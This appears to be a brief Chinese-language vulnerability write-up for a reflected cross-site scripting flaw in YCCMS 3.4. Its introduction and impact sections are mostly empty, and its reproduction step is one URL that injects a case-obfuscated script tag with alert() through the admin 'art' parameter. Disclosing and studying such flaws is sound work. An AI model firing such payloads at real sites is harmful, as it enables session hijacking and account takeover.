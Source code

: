 YCCMS 3.4 反射型xss
===================

一、漏洞简介
------------

二、漏洞影响
------------

YCCMS 3.4

三、复现过程
------------

    https://www.0-sec.org/admin/?a=html&art=<sCrIpT>alert(ian)<%2FsCrIpT>&m=arts
